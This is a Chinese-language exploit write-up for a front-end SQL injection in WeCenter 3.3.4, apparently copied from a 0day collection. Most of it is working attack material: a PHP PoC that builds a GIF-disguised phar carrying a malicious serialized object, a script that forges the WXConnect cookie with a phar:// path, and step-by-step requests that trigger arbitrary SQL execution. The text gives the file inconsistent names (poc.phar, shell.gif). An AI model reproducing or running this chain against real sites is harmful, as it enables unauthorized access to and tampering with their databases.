 # WeCenter 3.3.4 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 前台 sql 注入.html](http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 前台 sql 注入.html)

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意 sql 语句执行

**system/aws_model.inc.php:__destruct()** 方法中存在任意 **SQL** 语句执行。

![image](img/1a105af8662118dc1ddd6cfe1d53a9b5.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

    public function __construct($_shutdown_query)
    {
        $this->_shutdown_query = $_shutdown_query;
    }
}

$sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
$evilobj = new AWS_MODEL($sql);
// phar.readonly 无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为 phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();
?> 
```

### 利用

首先注册账号，并利用上面的 poc 生成 Phar 文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![image](img/30211556c85ad0bfee098ecdd89a322d.png)

记录下上传后的目录

![image](img/dc8935dcf4b763cab0556a0cfbe11015.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

```
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?> 
```

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入 Cookie 中，前缀可参考 Cookie 中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![image](img/6d3198f21923bbf267613e51cbe1a48a.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![image](img/33e2902ef6dc68312cea7d9181da5358.png)

任意 SQL 语句执行成功

